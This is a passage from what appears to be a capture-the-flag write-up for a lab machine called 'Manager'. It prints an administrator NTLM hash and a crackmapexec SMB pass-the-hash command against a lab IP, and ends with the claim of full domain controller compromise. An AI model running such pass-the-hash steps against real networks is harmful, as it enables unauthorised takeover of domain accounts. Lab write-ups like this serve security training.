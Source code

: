 ![](assets/Manager_assets/Pasted%20image%2020231223190248.png)

```
aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

- and we verify if we can access using the hash and we see we can

```shell
└─$ crackmapexec smb 10.10.11.236 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef'

```

![](assets/Manager_assets/Pasted%20image%2020231224181850.png)

- So can use this hash to finally gain access as DA and we have fully compromised the DC!!

![](assets/Manager_assets/Pasted%20image%2020231223191357.png)

![](assets/Manager_assets/Pasted%20image%2020231223191447.png)
